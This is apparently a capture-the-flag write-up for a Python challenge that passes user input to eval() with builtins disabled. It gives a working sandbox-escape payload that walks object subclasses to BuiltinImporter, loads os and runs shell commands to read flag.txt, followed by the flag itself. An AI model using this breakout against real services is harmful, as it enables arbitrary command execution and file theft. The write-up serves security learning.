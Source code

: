 # Bonus: The Revenge of Checkpass 1

We're given a script

```python
def main():
 password = "the password can contain non-ascii charactérs :)"
 inp = input("Enter a Python list: ")
 lis = eval(inp, {'__builtins__': None}, None)
 if type(lis) != list:
   print("That's not a list")
   return
 for i in lis:
   if not isinstance(i, int):
     print("The list can only contain integers")
     return
 if lis == [ord(e) for e in password]:
   print("You are now authorized!")
   with open("flag.txt", "r") as flag:
     print(flag.read())
 else:
   print("Incorrect password!")


if __name__ == "__main__":
 main()
```

# Analysis

The **eval()** function is used to evaluate the input as a Python expression. The second and third arguments passed to **eval()** are **{'builtins': None}** and **None** respectively. This restricts the evaluation context by disabling access to built-in functions and limiting the evaluation to the expression itself.

# Solution

There no filtering or sanitizing in the input.
Notes:

1.  The input must be list
2.  If there not integer in the list it will print the list can only contain integers

We can do a list comprehension that retrieves the class named that we can exploit but we cannot retrieve the class name into output so therefore the note number 2 is important
if we pass empty list [] it will produce incorrect password

there so many class that we can exploit in this case i will use BuiltinImporter
and here is the payload

```python
[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'BuiltinImporter']
```

The list comprehension will iterate all base subclasses then if the class name is BuiltinImporter it will pass to the list
then we can read the output. if the output show incorrect password thats mean there no **BuiltinImporter** class
but in the program it show **“The list can only contain integers”** wich mean the class is available
then we can run the exploit with **BuiltinImporter** class

```python
Enter a Python list: [c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'BuiltinImporter'][0]().load_module('os').system('ls')
flag.txt
run
That's not a list
```

```python
[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'BuiltinImporter'][0]().load_module('os').system('cat flag.txt')Enter a Python list:
ctf{pyth0n_s4ndb0x_br34k0ut_1f8bca}
That's not a list
```

**ctf{pyth0n_s4ndb0x_br34k0ut_1f8bca}**
